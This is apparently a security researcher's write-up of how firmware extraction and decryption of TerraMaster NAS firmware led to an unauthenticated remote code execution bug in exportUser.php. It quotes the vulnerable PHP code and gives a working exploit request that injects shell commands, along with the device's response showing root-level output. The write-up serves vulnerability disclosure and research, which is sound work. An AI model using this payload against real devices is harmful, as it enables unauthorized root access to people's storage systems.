






# fw extraction to rce


tl;dr 

It has just begun with a simple idea while one of our gaming sessions with Canberk. We just want to check IoT devices and we pick TerraMaster NAS devices as our target. After a little firmware extraction and some PHP source code analysis, remote code execution was achieved.

____


The first part will contain firmware extraction and file decryption process, the other part will cover the PHP source code analysis and gaining RCE.


First of all in the latest versions of the firmware file you are not able to reach out to system files anymore. In the latest fix, they converted their model to runtime extraction which means, when you boot-up the device it creates files in runtime. SAD.


Enough shit talk. Lets pwn it.


You should grab the firmware file from the TerraMaster website. You can reach out to the page by clicking [here](http://download.terra-master.com/download.php?lng=en&tid=177).


You can choose any NAS device from the list. Every device runs the same system.


After downloading the file, we should extract it. Binwalk is the best tool for that kind of job and it's widely used by iot/embedded researchers.

Lets extract the firmware!

First thing first, always check file type with `"file"` command on Linux and go after results.



As shown above, its a bzip2 compressed file so we can easily decompress it.

Just use `bunzip2 fw.ins` after that we have `fw` file. 



We can extract it with command `tar -xvf fw`

After that command, we have all firmware files including web page of the device.

Lets read some PHP!



Oppps. It seems encrypted.

After a little bit of digging on the folders, we found out "php.ini" file under "etc" directory. After a bit of reading shitty shits on Binary Ninja, we found out it is using AES as an encryption method and you can find out AES key from "php\_terra\_master.so" file which is under "/usr/lib64/php/modules" directory.



We sent file to the Binary Ninja to examine it and obtain AES keys to decrypt all PHP files.



"screw_aes" function seems interesting so lets dive into it.

Function calls another name named "pm9screw\_ext\_fopen". In this function we got AES key to decrypt all PHP files. But we realized that we should calculate MD5 of the key value to decrypt files.



`PS: Decryption routine has changed after we successfully exploited their newly patched firmware and their new encryption routine. You can debug the whole encryption routine and write a script to decrypt all files. ;)`

So, lets dive into PHP files again.

We r gonna skip all grep and other search methods like searching with regex from PHPStorm etc. 

Just search for "bad" shits like shell_exec etc.

After a bit searching for "bad" shits we found out "exportUser.php" file.

Lets examine line 105:

```php
<?php

$type = $_GET['type'];

$csv = new CSV_Writer();
if($type == 1){
    $P = new person();
    $data = $P->export_user($_GET['data']);
    $csv->exportUser($data);
}else if($type == 2){
    $P = new person();
    $data = $P->export_userGroup($_GET['data']);
    $csv->exportUsergroup($data);
}else{
    //xlsx通用下载
    $type = 0;
    $class = $_GET['cla'];
    $fun = $_GET['func'];
    $opt = $_GET['opt'];
    $E = new $class();
    $data = $E->$fun($opt);
    $csv->exportExcel($data['title'],$data['data'],$data['name'],$data['save'],$data['down']);
}

?>
```

There is no implemented authentication to exportUser.php file, we have successfully achieve "unauthenticated" code execution. 

With crafted request like below:

`hxxp://theSuspect:8181/include/exportUser.php?type=3&cla=application&fun=exec&opt=whoami&echo "erkan" > test.txt`

After executing this request, we have a file named "test.txt" in "/include" directory of device including output of the "whoami" command and "erkan" string.


### Exploitation Example:

```  
GET /include/exportUser.php?type=3&cla=application&func=_exec&opt=whoami&echo "erkan" > test.txt
HTTP/1.1
Host: theSuspect:8181
Connection: keep-alive
User-Agent: the UA
```

```
HTTP/1.1 200 OK
Date: Thu, 02 Jul 2020 11:49:11 GMT
Content-Type: text/plain
Last-Modified: Thu, 02 Jul 2020 11:46:10 GMT
Transfer-Encoding: chunked
Connection: close
ETag: W/"5efdc902-4e6"
X-Powered-By: TerraMaster
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Cross-Origin-Resource-Policy: same-origin
Content-Encoding: gzip
uid=0(root) gid=0(root)
erkan
```

When we have a time we will also release the Metasploit Module for the vulnerability too.

We can turn back to our gaming session then. Cya!


M.